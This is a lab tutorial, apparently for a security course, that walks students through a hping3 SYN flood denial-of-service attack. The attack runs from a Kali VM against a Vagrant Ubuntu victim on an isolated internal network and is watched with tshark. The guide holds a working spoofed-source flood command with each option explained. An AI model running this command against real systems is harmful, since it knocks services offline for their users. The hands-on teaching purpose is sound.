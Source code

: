 = SYN Flood Denial of Service Attack with Hping3

== Prerequisits

* Kali Linux virtual machine installed
* Vagrant installed

== Basic Kali Configuration

Start your Kali virtual machine. 

1. At the login screen, click and drag up to unlock the window.
2. For the user, enter `root`.
3. The password is `toor` (root backwards).
4. Open a command terminal. Run the following command to set the IP address and subnet mask.
+
```
ifconfig eth0 192.168.2.5 netmask 255.255.255.0
ifconfig
```

The output of `ifconfig` should look similar to the following figure. The IP address and subnet mask should match.

image::kali-ip-config.png[]

Keep the terminal window open until you verify connectivity with the victim.

== Victim Client Configuration

In this section, you will create a client VM that will be exploited.

1. Create a new folder on your computer.
2. Hold shift, right-click, and choose "Open command window here."
3. Run the following command to create a Vagrantfile:
+
```
vagrant init ubuntu/Trusty64
```

4. You should see the following output:
+
```
Management with Untangle>vagrant init ubuntu/trusty64
A `Vagrantfile` has been placed in this directory. You are now
ready to 'vagrant up' your first virtual environment! Please read
the comments in the Vagrantfile as well as documentation on
`vagrantup.com` for more information on using Vagrant.
```

5. Edit the Vagrantfile in Notepad or any other text editor. Replace the entire contents of the file with the following text:
+
```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure(2) do |config|
  config.vm.box = "ubuntu/trusty64"
  config.vm.network "private_network", ip: "192.168.2.10", virtualbox__intnet: true
end
```

6. Save the file.
7. Run the following commands from the command prompt:
+
```
vagrant up
vagrant ssh
```

8. Run `ifconfig` to see the client's configuration. The IP address of `eth1` should be 192.168.2.10/24.
+
```
ifconfig
```

You should see output similar to the following. The IP address and subnet mask should match the screenshot.

image::victim-ip-config.png[]

If the IP address was not set properly, run the following command to update it now.

```
ifconfig eth1 192.168.2.10 netmask 255.255.255.0
```

To capture network activity, you will need to install `tshark`---a command line version of Wireshark. Run the following command to install it, conforming your choice when prompted.

```
sudo apt-get install tshark
```

== Verify Connectivity

The Kali instance and the victim instance should be on the name subnet. Test basic connectivity from each machine using `ping`.

From the victim, run the following command.

```
ping 192.168.2.5
```

The ping should be successful.

image::victim-ping-kali.png[]

Run the following command in Kali.

```
ping 192.168.2.10
```

image::kali-ping-victim.png[]

The ping should be successful. Once your IP configuration is correct, you can close the terminal window in the Kali instance by running `exit`.

Ensure that the instances can ping each other before proceeding to the next step. If the computers cannot communicate, verify and correct the following settings:

  - Ensure the IP addresses and subnet masks are correct (192.168.2.10/24 for eth1 on victim, 192.168.2.5/24 for eth0 on Kali).
  - Ensure that the network adapters are set to "internal" for eth1 on victim and eth0 on Kali.
  - If you enabled any firewalls on the victim or Kali, disable them.

== Executing a SYN Flood Attack with hping3

1. In the `victim`, run the following command.
+
```
tshark -i eth1 -a duration:100
```

2. In Kali, run the following command to start an attack. (Make sure `-S` uses a capital `S`.) Press control+c to stop the command after half a second to a second to stop the attack (unless you want to lock up your computer--remember, this is a denial of service attack with the purpose of making a machine unresponsive.)
+
```
root@kali:~# hping3 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.2.10
```

The options mean:
  - `d`: data size
  - S: send SYN only
  - w: TCP window size
  - p: port
  - rand-source: spoof the source IP address
  - 192.168.2.10: the target of the attack

The output on the victim's console should look similar to the following figure.

image::victim-packet-capture.png[]

How many packets were sent in the duration of your attack? How many packets were sent per second?

== Cleanup

In Kali, close all windows and close the machine. Save the machine state or power it off---the decision is up to you.

If you want to save your Ubuntu server, run the following command to exit the SSH session and save the machine state. (Note--no need to enter the dollar sign or greater-than symbols--they merely indicate the prompt that you should see when running the commands.)

```
$ exit
> vagrant suspend
```

If you want to delete your Ubuntu server, run the following commands to exit the SSH session and delete the machine completely.

```
$ exit
> vagrant destroy
```